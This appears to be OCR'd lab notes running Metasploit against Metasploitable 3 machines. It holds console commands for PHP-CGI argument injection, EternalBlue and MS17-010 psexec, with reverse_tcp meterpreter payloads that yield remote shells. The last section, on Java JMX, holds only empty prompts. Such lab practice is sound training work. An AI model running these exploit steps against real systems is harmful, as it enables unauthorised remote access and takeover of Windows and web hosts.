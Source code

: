     
    Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/php_cgi_arg_injection
    
    msf6 > use 0
    msf6 > set RHOSTS 192.168.4.32
    msf6 > exploit 

    meterpreter > 

### Metasploitable 3 (windows): MS17-010 EternalBlue SMB remote Windows Kernel Pool Corruption
    msf6 > vulns -S ms17-010
    msf6 > vulns -S ms17-010 192.168.4.36
    msf6 > use exploit/windows/smb/ms17_010_eternalblue
    msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 > set RHOSTS 192.168.4.36
    msf6 > run
    
    meterpreter >

    msf6 > use exploit/windows/smb/ms17_010_psexec
    msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
    msf6 > set RHOSTS 192.168.4.36
    msf6 > set SMBDomain <domain>
    msf6 > set SMBUser <user>
    msf6 > set SMBPass <password>
    msf6 > run
    
    meterpreter >

### ( - port 1617): Java JMX Server Insecure Configuration Java Code Execution (java_jmx_server)
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
msf6 >
